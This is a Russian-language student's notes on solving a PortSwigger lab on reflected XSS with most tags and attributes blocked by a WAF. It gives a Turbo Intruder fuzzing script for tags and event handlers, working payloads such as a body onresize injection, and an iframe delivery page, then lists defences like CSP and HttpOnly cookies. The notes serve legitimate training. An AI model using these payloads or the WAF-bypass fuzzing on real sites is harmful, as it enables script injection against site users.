



лаба
 https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
##### Reflected XSS into HTML context with most tags and attributes blocked

задание:
есть уязвимость в поиске по сайту
работает WAF
для решения лабы нужно вывести принт

----
первич разведка



подставляется между тегами
```html
<h1>
0 search results for '77777777777'
</h1>
```

----

первично проверил
`<script>55555755555</script>` 
waf блокирует сразу и ответ 400 "Tag is not allowed"

-----

нет ограницений на число запросов - не блокируется , можно тупо бутфорсить

---

script   - не блокируется
<>< />   - не блокируется
script> - не блокируется
< script  - БЛОКИРУЕТСЯ
< /script>  - не блокируется
print(1)   - не блокируется


блокирует только < script


%3Cscript  - БЛОКИРУЕТСЯ 

%25%33%43script - не блокируется (двойное URL)

отлично!

`%25%33%43script>print(1)</script>`

но нет,  не срабатывает так как после декодировки - там символы которые js не врубает ваще
```html
<h1>0 search results for '%3Cscript>print()</script>'</h1>
```



------
нужно сменить вектор атак / сменить теги

перепробую все варианты

```python
import random
import time
try:
    from urllib.parse import quote
except ImportError:
    from urllib import quote

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=5,
                          requestsPerConnection=100,
                          pipeline=False)
    
    requests = []
    
    
    raw_payloads = """
a
g
abbr
acronym
address
animate
animatemotion
animatetransform
applet
area
article
aside
audio
b
base
bdi
bdo
big
blink
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
content
data
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
element
em
embed
fieldset
figcaption
figure
font
footer
form
frame
frameset
h1
head
header
hgroup
hr
html
i
iframe
image
img
input
ins
kbd
keygen
label
legend
li
link
listing
main
map
mark
marquee
menu
menuitem
meta
meter
multicol
nav
nextid
nobr
noembed
noframes
noscript
object
ol
optgroup
option
output
p
param
picture
plaintext
pre
progress
q
rb
rp
rt
rtc
ruby
s
samp
script
section
select
set
shadow
slot
small
source
spacer
span
strike
strong
style
sub
summary
sup
svg
table
tbody
td
template
textarea
tfoot
th
thead
time
title
tr
track
tt
script
u
ul
var
video
wbr
xmp
xss
"""
    
    # убир пустые строки
    payloads = [line.strip() for line in raw_payloads.split('\n') if line.strip()]

    for payload in payloads:
        
        wrapped_payload = payload
        final_request = target.req.replace('%s', wrapped_payload)
        requests.append(final_request)
    
    min_delay = 100
    max_delay = 500
    
    for request in requests:
        engine.queue(request)
        if random.random() > 0.1:
            delay = random.randint(min_delay, max_delay)
            time.sleep(delay / 1000.0)

def handleResponse(req, interesting):
    if interesting:
        req.label = "INTER"
        table.add(req)
    elif req.status == 500:
        response_text = req.response.lower()
        sql_indicators = ['sql', 'syntax', 'mysql', 'database', 'error', 'exception', 'warning']
        if any(indicator in response_text for indicator in sql_indicators):
            req.label = "POTENTIAL SQLi"
            table.add(req)
```

результат:
пропускает только один тег
### GET /?search=< body> HTTP/1.1

body - пропускает!!

---
теперь пробую события которые разрешены
клик, загрузка, движение мыши, изменение размера и тому подобное
###### эти события срабатывают и могут выполнить JavaScript
> Для каждого события можно выполнить ЛЮБОЙ JavaScript-код  и cинтаксис везде одинаковый 
#### `    <ТЕГ СОБЫТИЕ="код">       `

(скрипт тот же что и выше)
```
onafterprint
onanimationcancel
onanimationend
onanimationiteration
onanimationstart
onauxclick
onbeforecopy
onbeforecut
onbeforeinput
onbeforematch
onbeforepaste
onbeforeprint
onbeforetoggle
onbeforeunload
onbegin
onblur
oncancel
oncanplay
oncanplaythrough
onchange
onclick
onclose
oncommand
oncontentvisibilityautostatechange
oncontentvisibilityautostatechange(hidden)
oncontextmenu
oncopy
oncuechange
oncut
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
ondrop
ondurationchange
onend
onended
onerror
onfocus
onfocus(autofocus)
onfocusin
onfocusout
onformdata
onfullscreenchange
ongesturechange
ongestureend
ongesturestart
ongotpointercapture
onhashchange
oninput
oninvalid
onkeydown
onkeypress
onkeyup
onload
onloadeddata
onloadedmetadata
onloadstart
onlocation
onlostpointercapture
onmessage
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
onmousewheel
onmozfullscreenchange
onpagehide
onpagereveal
onpageshow
onpageswap
onpaste
onpause
onplay
onplaying
onpointercancel
onpointerdown
onpointerenter
onpointerleave
onpointermove
onpointerout
onpointerover
onpointerrawupdate
onpointerup
onpopstate
onprogress
onpromptaction
onpromptdismiss
onratechange
onrepeat
onreset
onresize
onscroll
onscrollend
onscrollsnapchange
onscrollsnapchanging
onsearch
onsecuritypolicyviolation
onseeked
onseeking
onselect
onselectionchange
onselectstart
onslotchange
onsubmit
onsuspend
ontimeupdate
ontoggle
ontoggle(popover)
ontouchcancel
ontouchend
ontouchmove
ontouchstart
ontransitioncancel
ontransitionend
ontransitionrun
ontransitionstart
onunhandledrejection
onunload
onvalidationstatuschange
onvolumechange
onwaiting
onwaiting(loop)
onwebkitanimationend
onwebkitanimationiteration
onwebkitanimationstart
onwebkitfullscreenchange
onwebkitmouseforcechanged
onwebkitmouseforcedown
onwebkitmouseforceup
onwebkitmouseforcewillbegin
onwebkitplaybacktargetavailabilitychanged
onwebkitpresentationmodechanged
onwebkittransitionend
onwebkitwillrevealbottom
onwheel
```

## Для каждого события можно выполнить ЛЮБОЙ JavaScript-код  и cинтаксис везде одинаковый 

#### `    <ТЕГ СОБЫТИЕ="код">       `
###### --------------------------
###### результаты:
не блокируются следующие события:

oncontentvisibilityautostatechange
oncontentvisibilityautostatechange
ongotpointercapture
onpromptdismiss
onwebkitmouseforcedown
onwebkitmouseforcewillbegin
onwebkitpresentationmodechanged
onwebkitplaybacktargetavailabilitychanged
oncancel
onlocation
onlostpointercapture
onscrollsnapchange
onscrollsnapchanging
onsecuritypolicyviolation
onvalidationstatuschange
onwebkitmouseforceup
onwebkitfullscreenchange
onwebkitmouseforcechanged
onwebkitwillrevealbottom
ondragexit
ongesturechange
ongesturestart
onpagereveal
onpointercancel
onpromptaction
onscrollend
ontouchcancel
onbeforematch
onbeforetoggle
ongestureend
onratechange
onslotchange
onbeforeinput
oncommand
onformdata
onpageswap
onresize
onsuspend
###### --------------------------


тогда можно пробовать пейлоады по порядку:
`  <body oncontentvisibilityautostatechange="print(1)">    `
не сработал - проверю код
вот код стр пришел от сервера
```http
<section class=blog-header>
		<h1>0 search results for '<body oncontentvisibilityautostatechange="print(1)">'</h1>
		<hr>
</section>
```
мой пейлоад обернут снова в эти бл"дские кавычки!  как текст а не как тег

нужно как-то закрыть кавычки , чтобы тег body сработал после них
похоже на sql иньекцию , где кавычкой выходим за пределы синтаксиса


пробую разное (чтобы научиться врубаться, так как это первые мои лабы)
```html
'<body oncontentvisibilityautostatechange="print(1)">

-----
ответ

<h1>0 search results for ''<body oncontentvisibilityautostatechange="print(1)">'</h1>
```

```html
><body oncontentvisibilityautostatechange="print(1)">

ответ -----------

 <h1>0 search results for '><body oncontentvisibilityautostatechange="print(1)">'</h1>

```

```html
''<body oncontentvisibilityautostatechange="print(1)">

ответ ---------

                   <section class=blog-header>
                        <h1>0 search results for '''<body oncontentvisibilityautostatechange="print(1)">'</h1>
                        <hr>
                    </section>
```

ориг запрос кончается на >' значит можно зкрыть раньше 
```html
>'<body oncontentvisibilityautostatechange="print(1)">

ответ ---  уже тег подсвечивается как тег а не как текст
но не работает принт
все в кавычках

                   <section class=blog-header>
                        <h1>0 search results for '>'<body oncontentvisibilityautostatechange="print(1)">'</h1>
                        <hr>
                    </section>

```
видно, что получается экранировать кавычки в начале пейлоада
теперь нужно закрыть кавычку и в конце 
```html
'><body oncontentvisibilityautostatechange="print(1)">
'><body onresize="print()">

ответ

                   <section class=blog-header>
                        <h1>0 search results for ''><body oncontentvisibilityautostatechange="print(1)">'</h1>
                        <hr>
                    </section>
```

закрываю обе кавычки
и вроде получилось экранировать все это дело, но принт не выполняется так как все дважды в одинарных кавычках!
```html
'<body oncontentvisibilityautostatechange="print(1)">'

ответ 


                  
                        <h1>0 search results for ''<body oncontentvisibilityautostatechange="print(1)">''</h1>
                        <hr>
           
                    
```
может нужно закрыть тег h1 ?   '< /h1>

```html
'</h1><body oncontentvisibilityautostatechange="print(1)">

----- ответ ------

</h1><body oncontentvisibilityautostatechange="print(1)">'</h1>
```

```html
'</h1><body oncontentvisibilityautostatechange="print(1)">'<h1>
'</h1><body oncontentvisibilityautostatechange="print(1)"><h1>'
-----оба ответ ------

400  "Tag is not allowed" заблокированно! епта! потому что h1 блокируются
нужно чисто кавычками и скобками  решить проблему

```

oncontentvisibilityautostatechange  это для элементов которые могут менят ьпрозрачность

легко проверить через onresize так достаточно просто растянуть окно!

onscroll   сработает при прокрутке страницы
onclick    сработает  при клике в любое место
onload     сработает  при загрузке страницы
onerror    сработает  при ошибке загрузки картинки (добавить url )
onmouseover  при наведении курсора на элемент
onresize    растянуть окно !

#### я тупил потому что не знал, че такое эти события )
```html
'><body onresize="print(1)"> 
```
просто добавил в страницу этот скрипт 
и теперь при ресайзе страницы срабатывает  print(1)

теперь я подготвил ссылку  ⭐️
`https://0ac400540403917e84d45ef4003b0019.web-security-academy.net/?search=%27%3E%3Cbody+onresize%3D%22print%281%29%22%3E`
при переходе по ней в брузере жертвы будет выполняться данный скрипт 

---
подгружаю картинку ЪУЪ на страницу!

```html
'><body onresize="var img=document.createElement('img'); img.src='https://yt3.googleusercontent.com/SPzB93G2bsvMo-D51hWZRm00Mj8h0fkzJHwXWps_nLs-LfF_MlyBAmIggNlwL9TFw5gJodX6Q5k=s900-c-k-c0x00ffffff-no-rj'; document.body.appendChild(img)">
```




вот сформированная ссылка
`https://0ac400540403917e84d45ef4003b0019.web-security-academy.net/?search=%27%3E%3Cbody+onresize%3D%22var+img%3Ddocument.createElement%28%27img%27%29%3B+img.src%3D%27https%3A%2F%2Fyt3.googleusercontent.com%2FSPzB93G2bsvMo-D51hWZRm00Mj8h0fkzJHwXWps_nLs-LfF_MlyBAmIggNlwL9TFw5gJodX6Q5k%3Ds900-c-k-c0x00ffffff-no-rj%27%3B+document.body.appendChild%28img%29%22%3E`

при переходе по ней - открывается картинка на сайте при ресайзе
с этим же спехом можно легко выполнять любой код!

-----

но в условиях сказано, что скрипт должен сработать сам автоматически!
можно использовать iframe который сработает автоматически и подгрузит через ресурсы src тут мою видоизмененную ссылку  ⭐️ выше.
останется лишь заставить жертву перейти по моей ссылке на мой сервер/сайт , и эта ссылка будет внешне отличаться от оригинальной . но лаба сама это делает.

# сработало
`"><body onresize=print()>`
```html
<iframe src="https://0ac400540403917e84d45ef4003b0019.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload="this.style.width='100px'"></iframe>
```
лаба решена

----

#### почему iframe  + свой сервер - лучшее решение 
 можно было бы и просто отправить ссылку - но тогда пришлось бы жертве менять например размер окна - для срабатывания эксплойта

а есил пригнать жертву на мой собственный сервер - тогда через фрейм все откроется автоматически!

но жртве прийдется переходить по ссылке которая не будет начинаться в точности как оригинальная, но зато сам сайт можно подделать под оригинал + фрейм сработает автоматически!

---

#### как решил лабу ?

1 определил что блокирует waf
2 нашел теги которые waf не блокирует
3 нашел ивенты которые не блокируются waf
4 вышел за пределы кавычек которые подставлял сервер
5 запустил пейлоад (вызвал и принт и подгрузил картинку в сайт)
6 сформировал ссылку с пейлоадом `"><body onresize=print()>`
7 на эксплойт сервере создал iframe с сформированной ссылкой
8 отправил жертве ссылку и жертва перешла по ней на мой сервер!
и открывшийся фрейм подгрузил незаметно страницу атакуемого сайта с вредоносом `onresize=print()` и вуаля - у жертвы сработал эксплойт в браузере

сайт атакуемый = 
` https://0ac400540403917e84d45ef4003b0019.web-security-academy.net/ `

мой эксплойt сервер = 
` https://exploit-0a4f00ea0420917c84b15dae01d40075.exploit-server.net/exploit `

```html
<iframe src="https://0ac400540403917e84d45ef4003b0019.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload="this.style.width='100px'"></iframe>
```
-----
## как защититься?

 использовапть заголовок Content-Security-Policy - говорит браузеру, какие ресурсы можно загружать
 например
 ```http
 Content-Security-Policy: default-src 'self'; script-src 'self'; frame-ancestors 'none';
 
 
 self  - разрешает скрипты только с этого же домена
 frame-ancestors 'none'  -  запрещает встраивать сайт в iframe ВАЩЕ
 
 
 ---
 
 Set-Cookie: session=ABC123; HttpOnly; Secure  - запрет на чтение кук document.cookie
 
 ------
 
 Set-Cookie: session=ABC123; SameSite=Lax; Secure  не пускает читать куки
 
 ---

 ```

экранировать (валидация) ввод, слова и символы! разделять пробелами и другие способы
и не полагаться на черные списки

```http
X-XSS-Protection: 1; mode=block

--------

Включает встроенный фильтр XSS в браузере (но современные браузеры уже полагаются на CSP)
```

Trusted Types (для DOM-based XSS)
заставляет использовать санитайзер ввода
`element.innerHTML = aTrustedTypeObject;`

-----


